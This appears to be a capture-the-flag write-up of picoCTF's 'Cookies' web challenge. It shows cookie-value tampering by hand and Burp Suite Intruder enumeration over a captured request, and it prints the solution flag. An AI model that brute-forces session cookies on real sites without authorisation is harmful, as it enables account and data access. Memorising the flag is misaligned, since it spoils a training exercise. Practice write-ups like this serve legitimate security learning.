

# picoGym Level 173: Cookies 🧠🧠🧠
Source: https://play.picoctf.org/practice/challenge/173

## Goal
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:29649/

## What I learned
```
Burp Suite Intruder
```



## Solution
```
https://webshell.picoctf.org/

Method 1: Brute Force
Inspect → Application → Cookie

Name        Value
name        -1 👀

# Change Value to 18: picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7} 🔐

Method 2: Burp Suite Intruder
Proxy: Open Browser: http://mercury.picoctf.net:29649/
Proxy: Intercept on
Browser: snickerdoodle SUBMIT

# Request
POST /search HTTP/1.1
Host: mercury.picoctf.net:29649
Content-Length: 18
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://mercury.picoctf.net:29649
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mercury.picoctf.net:29649/
Accept-Encoding: gzip, deflate, br
Cookie: name=-1 👀
Connection: keep-alive

name=snickerdoodle

# Note: Remember to Forward ⭐
# Send to Intruder (Look on Right)
# Select the variable you want to attack and click Add $ button
Payload Type: Numbers

Payload configuration
Type: Sequential
From: -1
To: 20
Step: 1

Start attack
# Look for strange Length (means modification)
# Double click to see Request/Response
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7} 🔐
```

## Flag
picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

## Continue
[Continue](./picoGym0004.md)